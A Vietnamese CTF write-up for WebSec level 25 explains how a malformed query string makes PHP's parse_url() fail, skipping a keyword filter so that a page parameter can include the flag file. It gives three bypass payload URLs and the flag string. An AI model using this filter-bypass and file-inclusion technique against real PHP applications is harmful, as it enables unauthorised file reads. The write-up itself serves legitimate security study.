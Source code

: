 # LevelTwentyFive
>parse_url()
>
Đề bài cho ta source code php sau :
```php
<?php
parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
foreach ($query as $k => $v) {
    if (stripos($v, 'flag') !== false)
        die('You are not allowed to get the flag, sorry :/');
}
include $_GET['page'] . '.txt';
?>
```

## Phân tích source code:
- **parse_url()** : sẽ phân tích url và trả về các thành phần của nó sau đó gán vào mảng `$query`
Ví dụ tham khảo ở : [PHP: parse_url()](https://www.php.net/manual/en/function.parse-url.php) 

![vd](https://github.com/tinasahara1/Study/blob/5e2352c4297a7822b14ecd215f7d4c164c271c74/WebSec/image/vd.PNG)


- Tiếp theo vòng lặp foreach sẽ chạy từng phần tử trong mảng `$query` vừa gán và kiểm xa xem nó có chứa chuỗi `flag` ko => Nếu có thì nó sẽ die() 
- Cách bypass của chúng ta là sẽ không để nó chạy vào vòng lặp foreach bằng cách làm cho url sai => $query = false => thì nó sẽ ko chạy vòng lặp đc 
### payload 1:
`https://websec.fr/level25/index.php?page=flag&foo=127.0:80`

## payload 2: 
`https://websec.fr/level25/index.php?page=flag&a:1`

## payload 3:
parse_str() có thể bị bypass qua curl
`curl https://websec.fr/level25/index.php?page=flag`

Flag: `WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}`
